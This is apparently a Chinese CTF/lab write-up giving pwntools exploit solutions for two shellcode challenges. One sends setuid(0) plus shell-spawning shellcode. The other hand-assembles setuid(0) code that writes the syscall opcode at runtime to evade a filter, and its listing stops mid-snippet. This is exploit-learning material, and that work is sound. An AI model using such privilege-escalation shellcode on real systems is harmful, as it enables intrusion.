 #### ch3：

> 二进制文件：[shellcode_ch3](./2_解析ROP（返回导向编程）.assets/shellcode_ch3)
> C源码：[shellcode_ch3](./2_解析ROP（返回导向编程）.assets/shellcode_ch3.c)

wp：

```python
from pwn import *
import os
os.chdir("/challenge")

context.arch = 'amd64'

file_name = './1-1-3'

io = process(file_name)

str = io.recvuntil("from stdin.\n")
print(str.decode('utf-8'))

shellcode = asm(shellcraft.sh())

payload = asm(shellcraft.amd64.linux.setuid(0)) + shellcode
# payload = asm(shellcraft.i386.linux.setuid(0) + shellcraft.amd64.sh())

io.sendline(payload)

io.interactive()
```

#### ch4：

> 二进制文件：[shellcode_ch4](./2_解析ROP（返回导向编程）.assets/shellcode_ch4)
> C源码：[shellcode_ch4](./2_解析ROP（返回导向编程）.assets/shellcode_ch4.c)

wp：

```python
from pwn import *
import os
os.chdir("/challenge")

context.arch = 'amd64'

file_name = './1-1-4'

io = process(file_name)

str = io.recvuntil("from stdin.\n")
print(str.decode('utf-8'))

# 构造 setuid(0) 的 shellcode
setuid0 = asm("""
    xor rax, rax                ;清除 rax
    mov al, 105                 ;系统调用号 105 - setuid
    xor rdi, rdi                ;设置 rdi = 0 (uid 0)

    ;动态写入 syscall 指令
    lea rcx, [rip+syscall_instr] ;指向即将形成 syscall 的位置
    mov byte ptr [rcx], 0x0f     ;写入前一半 0x0f
    mov byte ptr [rcx+1], 0x05   ;写入后一半 0x05

syscall_instr:
    nop                         ;此处将变为 syscall
    jmp syscall_instr           ;跳到 syscall
```